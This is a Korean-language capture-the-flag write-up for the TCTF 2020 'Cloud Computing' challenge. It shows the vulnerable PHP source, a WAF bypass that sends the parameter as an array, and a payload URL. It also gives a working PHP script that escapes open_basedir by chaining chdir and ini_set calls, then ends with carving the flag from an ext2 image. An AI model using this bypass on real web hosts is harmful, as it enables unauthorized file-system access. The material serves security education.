 ```yaml
---
layout: post
title: "[TCTF 2020] Cloud Computing"
author: "choiys"
comments: true
tags: [ctf, misc, php]
---
```


라온화이트햇 핵심연구팀 최용선([hcy3bkj@gmail.com](mailto:hcy3bkj@gmail.com))


# 0. 개요

2020. 06. 27 11:00 ~ 2020. 06. 29 11:00 (48h) 진행한 TCTF 2020 문제 중 misc 분야의 Cloud Computing 문제에 대한 Write Up입니다. 풀이에 사용된 취약점은 subdirectory를 이용한 php open_basedir 우회입니다.

# 1. 문제 설명

![/assets/choi600.png](/assets/choi600.png)

**Cloud Computing**

![/assets/choi601.png](/assets/choi601.png)

**Cloud Computing 문제 설명**

Cloud Computing 문제는 misc 분야의 문제로, 대회 기간 동안 총 42팀이 풀이하였습니다.

문제 설명에는 풀이에 힌트가 될만한 문구는 없습니다.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

**index.php**

문제 페이지에 접근해보면 위와 같은 소스코드를 확인할 수 있습니다.

문제 페이지에서는 사용자의 IP와 User Agent 정보를 이용하여 웹루트를 기준으로  `/sandbox/sha1(IP+UA)` 폴더를 생성합니다.

제공하는 기능은 아래와 같습니다.

---

1. ?action=pwd
    - 앞서 생성한 사용자 디렉토리($dir) 경로를 확인합니다.

        *( sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/ )*

2. ?action=upload&data=XXX
    - $dir 경로에 data 파라미터에 삽입한 내용을 index.php로 생성합니다.
    - data 파라미터를 waf 처리 후 탐지될 경우 `waf sucks...`를 출력 후 종료합니다.
    - 정상적으로 index.php를 생성할 경우 case문에 break가 없어 3. shell(코드 실행)로 이동합니다.
3. ?action=shell
    - $dir을 파라미터로 initShellEnv라는 함수를 호출합니다.
    - 이후 2에서 생성한 index.php를 include하여 실행합니다.

---

# 2. 문제 풀이

## 2-1. WAF

위 문제 설명에서 waf 함수가 있었으며, 이 함수는 공백, 특수문자 등을 필터링하는 기능을 가지고 있었습니다.

하지만 php에서는 HTTP 파라미터로 데이터를 전송할 때 `a[]=x`와 같이 전송할 시 Array로 인식을 하면서 이를 WAF에서 처리하지 않을 경우 손쉽게 우회가 가능합니다.

```php
<?php

function waf($data = '')
{
    if (strlen($data) > 35) {
        return true;
    }
    if (preg_match("/[!#%&'*+,-.: \t@^_`|A-Z]/m", $data, $match) >= 1) {
        return true;
    }
    return false;
}

function initShellEnv($dir)
{
    ini_set("open_basedir", "/var/www/html/$dir");
}
```

**function.php**

추출한 function.php를 살펴보면 Array에 대한 별다른 처리가 없는 것을 확인할 수 있습니다.

## 2-2. open_basedir

function.php의 `initShellEnv` 를 살펴보면 open_basedir을 사용자 경로로 설정하는 것을 확인할 수 있습니다.

![/assets/choi60.png](/assets/choi60.png)

**open_basedir**

open_basedir은 설정한 특정 디렉토리 및 하위 디렉토리만 접근할 수 있도록 합니다. 본 문제에서는 이 설정 때문에 상위 디렉토리에 접근할 경우 에러가 발생합니다.

```php
Warning: file_get_contents(): open_basedir restriction in effect. File(../../index.php) is not within the allowed path(s): (/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/) in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1

Warning: file_get_contents(../../index.php): failed to open stream: Operation not permitted in /var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/index.php on line 1
```

payload : [http://pwnable.org:47780/?action=upload&data[]=<?php error_reporting(E_ALL); ini_set("display_errors", 1); file_get_contents('../../index.php') ?>](http://pwnable.org:47780/?action=upload&data%5B%5D=%3C?php%20error_reporting(E_ALL);%20ini_set(%22display_errors%22,%201);%20file_get_contents(%27../../index.php%27)%20?%3E)

이를 우회하는 방법은 2가지가 있습니다.

1. subdirectory
2. symbolic link

본 문제에서는 subdirectory를 이용하여 open_basedir 설정을 우회하였습니다.

```php
<?php
<?php
    error_reporting(E_ALL);
    ini_set("display_errors", 1);

    $base_dir='/var/www/html/sandbox/373102940643ef0b8ab909ff4d486c5f584d7c86/';
    if(!file_exists($base_dir))
        mkdir($base_dir.'/choiys');
    chdir($base_dir.'/choiys');

    ini_set('open_basedir','..');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    chdir('../');
    ini_set('open_basedir','/');

    $dirs = scandir('/');
    foreach($dirs as $dir){
        echo $dir."\n";
    }

//    echo file_get_contents('/var/www/html/function.php');
?>
```

**bypass open_basedir**

---

1. open_basedir이 설정되어있는 상태에서 임의의 디렉토리를 생성합니다.
2. chdir 명령어를 통해 해당 디렉토리로 이동한 후 open_basedir을 상위 디렉토리로 변경합니다.
3. chdir 명령어를 반복 사용하여 루트 디렉토리로 이동합니다.
4. open_basedir을 루트 디렉토리(/)로 변경합니다.

---

위와 같은 프로세스를 통해 고정된 open_basedir을 루트 디렉토리로 변경할 수 있으며, 결과적으로 모든 디렉토리에 접근이 가능해집니다.

이후 scandir 함수를 사용하여 루트 디렉토리를 확인하여 flag 파일이 존재하는 것을 확인하였습니다.

```bash
➜  cloud_computing ls
agent  agent.i64  golang_loader_assist.py  legacy_flag  payload.py  res.out
➜  cloud_computing file res.out
res.out: gzip compressed data, was "flag.img", last modified: Fri Jun 26 00:54:32 2020, from Unix, original size modulo 2^32 1048064
➜  cloud_computing mv res.out res.gz
➜  cloud_computing gzip -d res.gz
➜  cloud_computing file res
res: Linux rev 1.0 ext2 filesystem data (mounted or unclean), UUID=d4d08581-e309-4c51-990b-6472ba249420 (large files)
```

추출한 파일을 확인해보면 gzip으로 압축되어있으며, 압축 해제 시 ext2 이미지를 얻을 수 있습니다.

![/assets/choi61.png](/assets/choi61.png)

해당 이미지를 hex에디터로 살펴보면 PNG파일이 존재하는 것을 확인할 수 있으며, 카빙하여 이미지를 추출하면 플래그를 얻을 수 있습니다.

![/assets/choi62.png](/assets/choi62.png)

FLAG : **flag{do_u_like_cloud_computing}**